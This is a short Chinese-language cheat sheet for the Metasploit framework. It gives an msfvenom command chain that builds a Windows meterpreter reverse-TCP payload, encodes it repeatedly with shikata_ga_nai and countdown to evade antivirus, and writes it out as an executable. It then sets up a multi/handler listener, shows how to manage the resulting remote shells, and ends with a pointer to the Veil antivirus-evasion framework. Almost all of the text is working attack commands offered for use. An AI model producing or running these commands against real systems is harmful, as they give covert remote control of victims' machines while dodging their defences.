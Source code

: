 # Metasploit 攻击平台(Beta)


## msfvenom 

### 生成 payload

参考文档: <https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom>

windows 平台
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.78.128 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o Desktop/payload.exe
```

### 监听

参考文档: <https://xz.aliyun.com/t/3007>

步骤：

1. 启动PostgreSQL数据库服务：service postgresql start
2. 初始化Metasploit数据库:msfdb init
3. 查看数据库联接情况:msfconsole db_status
4. 建立数据库缓存:msfconsole db_rebuild_cache

```sh
msf > use exploit/multi/handler
msf > exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
msf > exploit(handler) > show options

msf exploit(handler) > set LHOST 172.16.0.4
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j -z  
# -j(计划任务下进行攻击，后台) -z(攻击完成不遇会话交互)

msf exploit(handler) > jobs  # 查看后台攻击任务 
msf exploit(handler) > kill <id>  #停止某后台攻击任务 
msf exploit(handler) > sessions -l  #(查看会话)

msf exploit(handler) > sessions -i 2   #选择会话
msf exploit(handler) > sessions -k 2   #结束会话

Ctrl+z  #把会话放到后台
Ctrl+c  #结束会话
```

### 免杀

参考文档：<https://github.com/Veil-Framework/Veil>


